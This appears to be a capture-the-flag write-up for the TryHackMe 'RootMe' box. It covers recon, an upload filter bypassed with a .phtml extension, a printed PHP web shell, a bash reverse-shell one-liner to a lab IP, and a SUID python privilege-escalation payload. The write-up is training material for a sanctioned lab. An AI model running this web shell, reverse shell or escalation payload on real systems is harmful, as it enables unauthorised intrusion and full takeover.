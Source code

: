 * * *
 ### ROOTME box 
 ### Tryhackme
* * * 

### Reconnaissance
- I scanned and fingerprinted the services running on the target ip with nmap and it discovered two open ports.

  ![2023-12-25_03-30](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/10260022-8e5a-4527-b014-2c0c53d579d4)

- Nmap identified an apache web server running on port 80,I took the next step on the list which was fuzzzing for directories with gobuster.
Gobuster discovered two interesting directories "uploads" and "panel"

   ![2023-12-25_03-37](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/ca20f790-7fa5-4c70-81c0-5c06a27ab19e)

- The "/panel/" directory contains a page for uploading file,I tested for unrestricted file upload by trying to upload a simple php shell.
I was unable to upload a file ending with ".php", I decided to try other php extensions and ".phtml" worked. Now we can execute shell commands and try to escalate privileges

     ![2023-12-25_03-41](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/9371e7e6-b584-48dd-8bbb-5d11823ac0f0)

- I accessed the shell via the uploads directory, this is an example of a php shell,I got it from revshells.com
```
   <html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```
- To make things easier,i popped a rev shell with this payload on the shell and created a listener on the host machine with "nc -nlvp 9999"
```  
   bash -c "bash -i >& /dev/tcp/10.18.31.164/9999 0>&1"
```

  ![2023-12-25_03-50](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/115d93ed-244a-49e6-9536-66622f266363)

- I stabilized the shell with this commands
 ```
   python3 -c "import pty;pty.spawn('/bin/bash')"
   ctrl+z
   stty raw -echo;fg
   export TERM=XTERM
```
### Privesc
- The goal of the lab is to escalate privileges with SUID bit.SUID, short for Set User ID, is a special permission that can be assigned to executable files. When an executable file has the SUID permission enabled, it allows users who execute the file to temporarily assume the privileges of the file's owner. This means that even if a user does not have the necessary permissions to access or perform certain actions, they can do so by executing a file with the SUID permission
 I spotted binaries with SUID bits with this command and escalated privilege with /usr/bin/python
```
   find / -user root -perm /4000 2</dev/null
```
   ![2023-12-25_04-05](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/bc55bdb5-dcb1-4a9f-8c14-397ca4c66eb7)

- I checked gtfobins for payloads to escalate privileges with the python binary if SUID bit is set, and I got a payload.
```
sudo install -m =xs $(which python) .

./python -c 'import os; os.execl("/bin/sh", "sh", "-p")' 
```
- I escalated privileges with the payload

   ![2023-12-25_04-09](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/e834fc16-f7af-4f2d-802b-00c76817eca2)

- Now I can read root.txt and user.txt and pwn the box,challenge solved.

   ![2023-12-25_04-14](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/396ee395-f030-4ec5-9337-845c7200b580)

   
 
